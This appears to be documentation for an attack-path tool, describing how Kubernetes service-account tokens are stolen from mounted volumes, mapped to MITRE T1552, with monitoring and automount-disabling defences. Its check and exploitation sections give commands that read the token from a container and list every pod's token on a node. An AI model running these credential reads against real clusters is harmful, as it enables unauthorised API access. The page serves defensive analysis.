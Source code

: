 # TOKEN_STEAL

This attack represents the ability to steal a K8s API token from an accessible volume.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Volume](../vertices/VOLUME.md) | [Identity](../vertices/IDENTITY.md) | [Unsecured Credentials, T1552](https://attack.mitre.org/techniques/T1552/) |

## Details

An attacker with access to a pod with an automounted serviceaccount token (the default behaviour) can steal the serviceaccount access token to perform actions in the K8s API. More significantly if an attacker is able to access all or part of the K8s node filesystem e.g via a `hostPath` mount, an attacker could retrieve the service account tokens for ALL pods running on the node. This attack is possible from access to a container or node and each case is discussed separately throughout.

## Prerequisites

### Container

+ A service account token mounted into the container via a projected volume (default behaviour).

### Node

+ Access to a K8s node filesystem (`/var/lib/kubelet/pods` or any parent directory)

## Checks

### Container

Check whether a serviceaccount token is automounted:

```bash
ls -la /var/run/secrets/kubernetes.io/
ls -la /run/secrets/kubernetes.io/
```

Check whether a host volume mount provides access to other pods' tokens:

```bash
ls -la /<HOST MOUNT>/var/lib/kubelet/pods/
```
 
[KDigger](https://github.com/quarkslab/kdigger#token) can also help with this.

### Node

Confirm access to the location of pod tokens:

```bash
ls -la /var/lib/kubelet/pods/
```

## Exploitation

See [IDENTITY_ASSUME](./IDENTITY_ASSUME.md#exploitation) for how to use a captured token.

### Container

From within a container read the service account token mounted in the default location:

```bash
cat /run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

### Node

Steal access tokens for ALL pods running on the node:

```bash
 find /var/lib/kubelet/pods/ -name token -type l 2>/dev/null
# /var/lib/kubelet/pods/5a9fc508-8410-444a-bf63-9f11e5979bee/volumes/kubernetes.io~projected/kube-api-access-225d6/token
# /var/lib/kubelet/pods/a1176593-34a2-43e6-8bdd-ed10fa148fe7/volumes/kubernetes.io~projected/kube-api-access-ng6px/token
# /var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token
# /var/lib/kubelet/pods/dfbf38ad-2e92-44e0-b05
```

## Defences

### Monitoring

+ Monitor for access to well-known K8s secrets paths from unusual processes.

### Prevent service account token automounting

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to access the API from within itself.

From version 1.6+ it is possible to prevent *automounting* of serviceaccount tokens on pods using:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sa1
automountServiceAccountToken: false
```

## Calculation

[TokenSteal](../../pkg/kubehound/graph/edge/token_steal.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)

